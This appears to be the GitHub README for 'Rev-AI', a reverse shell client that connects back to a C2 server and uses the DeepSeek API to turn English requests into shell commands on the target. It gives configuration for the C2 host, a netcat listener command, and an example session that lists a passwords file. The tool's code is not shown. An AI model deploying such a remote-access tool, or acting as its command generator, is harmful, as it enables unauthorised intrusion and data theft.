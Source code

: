 🔄 Rev-AI: AI-Powered Reverse Shell Client

📌 Overview
Rev-AI is an intelligent reverse shell client that:

Translates natural language to Linux commands using DeepSeek AI
Maintains persistent connections with automatic reconnection
Provides detailed system diagnostics
Works across multiple operating systems

🚀 Features



Feature
Description



🤖 AI Command Generation
Converts English queries to executable commands


🔧 Cross-Platform
Supports Windows, Linux, and macOS targets


🔒 Secure Communication
Encrypted socket communication with timeouts


🔄 Auto-Reconnect
Resilient connection with configurable retry intervals


💻 System Profiling
Detailed OS/hardware information collection


🧠 Context Memory
Maintains conversation history with AI model


⚙️ Installation
# Clone the repository
git clone [https://github.com/yourusername/rev-ai](https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell).git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env

🛠 Configuration
Environment Variables
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file

🖥 Usage
1. Start Listener (Server)
nc -lvnp 62065

2. Execute Client (Target)
python rev-ai.py

3. Available Commands
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands

Example Session
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt

⚠️ Security Notice
❗ Legal Use OnlyThis tool is intended for:

Authorized penetration testing
Educational purposes
Legitimate system administration

🔒 Required Precautions:

Obtain explicit written permission before deployment
Use only on systems you own/administrate
Never use for illegal activities

📜 License
MIT License - See LICENSE for full text.
📬 Contact
For security reports or questions:

Email: your@email.com
GitHub Issues: Open Issue


Disclaimer: Authors are not responsible for misuse of this software.
